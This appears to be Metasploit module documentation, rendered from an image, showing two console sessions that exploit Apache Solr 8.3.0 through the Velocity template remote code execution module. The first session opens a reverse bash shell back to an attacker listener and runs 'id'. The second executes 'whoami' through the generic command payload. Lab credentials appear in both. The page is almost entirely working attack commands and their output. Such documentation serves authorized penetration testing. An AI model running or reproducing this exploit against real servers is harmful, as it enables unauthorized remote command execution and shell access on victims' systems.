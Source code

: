 ### Bitnami Solr VM 8.3.0, requiring basic authentication, command execution in-memory, with payload `cmd/unix/reverse_bash`
```
msf > use exploit/multi/http/solr_velocity_rce
msf exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.129
RHOSTS => 192.168.137.129
msf exploit(multi/http/solr_velocity_rce) > set RPORT 80
RPORT => 80
msf exploit(multi/http/solr_velocity_rce) > set TARGET 0
TARGET => 0
msf exploit(multi/http/solr_velocity_rce) > set USERNAME user
USERNAME => user
msf exploit(multi/http/solr_velocity_rce) > set PASSWORD j6lzH82e6Jc5
PASSWORD => j6lzH82e6Jc5
msf exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 4.9.0-11-amd64
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[*] Command shell session 17 opened (192.168.137.128:4444 -> 192.168.137.129:48600) at 2020-03-29 00:20:50 +0800

id
uid=999(solr) gid=1002(solr) groups=1002(solr)
```

### Bitnami Solr VM 8.3.0, requiring basic authentication, command execution in-memory, with payload `cmd/unix/generic`
```
msf > use exploit/multi/http/solr_velocity_rce
msf exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.129
RHOSTS => 192.168.137.129
msf exploit(multi/http/solr_velocity_rce) > set RPORT 80
RPORT => 80
msf exploit(multi/http/solr_velocity_rce) > set TARGET 0
TARGET => 0
msf exploit(multi/http/solr_velocity_rce) > set USERNAME user
USERNAME => user
msf exploit(multi/http/solr_velocity_rce) > set PASSWORD j6lzH82e6Jc5
PASSWORD => j6lzH82e6Jc5
msf exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf exploit(multi/http/solr_velocity_rce) > set CMD whoami
CMD => whoami
msf exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 4.9.0-11-amd64
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[+] solr
[*] Exploit completed, but no session was created.
msf exploit(multi/http/solr_velocity_rce) >
```